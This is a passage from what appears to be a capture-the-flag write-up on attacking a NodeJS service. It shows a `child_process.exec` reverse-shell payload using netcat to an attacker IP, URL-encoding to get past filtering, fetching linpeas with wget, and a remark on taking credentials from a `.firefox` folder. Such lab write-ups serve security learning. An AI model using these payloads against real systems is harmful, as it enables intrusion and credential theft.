 
If we look at the glorious PayloadsOfAllTheThings repo, we see there is some way of exploiting NodeJS: [Check it here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

It seems we can exploit the `require` child process from NodeJS, something like this:

`require('child_process').exec('nc -e /bin/sh 10.13.0.34 2112')`

Let's try that out in another POST request, but first we need to fire up a netcat listener to catch the eventual reverse shell:

`nc -nlvp 2112` Yup, I'm sticking to my favorite port again.

![](https://i.imgur.com/iIfs3do.png)

Even though the request seems to have worked, we are not getting any reverse shell connection back to us. Time to try another payload for that `.exec()` argument. Let's try with the classic `nc` reverse shell, again this is listed in the same PayloadOfAllTheThings: [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd). I've used this one in the past, and it worked fine. Let's see if it does this time as well:


![](https://i.imgur.com/lnTNLMq.png)

This time we get another error, meaning that some of the characters we sent in our request are possibly being filtered out or causing errors. One very basic thing we can try is to URL encode the payload, not just the nc payload, but the entire thing from the `require` using cyberChef.

![](https://i.imgur.com/ODSMQ7x.png)

Now let's copy paste that encoded payload and use it in our request with RESTer:

![](https://i.imgur.com/RpiFHO9.png)

It worked! We got the initial access to the target. Let's see what we can find browsing around the files in the target:

![](https://i.imgur.com/SWGQX1y.png)

With that we found the first flag, now we need to chase that root access. One interesting thing to mention here, is that we see a `.firefox` folder. I know there are some way of exploiting that folder since it usually contains username and passwords we can possibly leverage. But for now let's fire up linpeas and see what it can find for us.

Let's fire up a local python3 http server so we can upload, make sure to have a Linpeas.sh copy ready in the same folder where you spin up that HTTP server: `sudo python3 -m http.server 80` and then from our reverse shell, having browsed to `/tmp` we simply wget that file:

![](https://i.imgur.com/28JMrl5.png)

Before we go further let's get ourselves a better shell, by using Python TTY: `python -c 'import pty;pty.spawn("/bin/bash")'`

Now let's run `chmod +x linpeas.sh` and the run linpeas with `./linpeas.sh`:
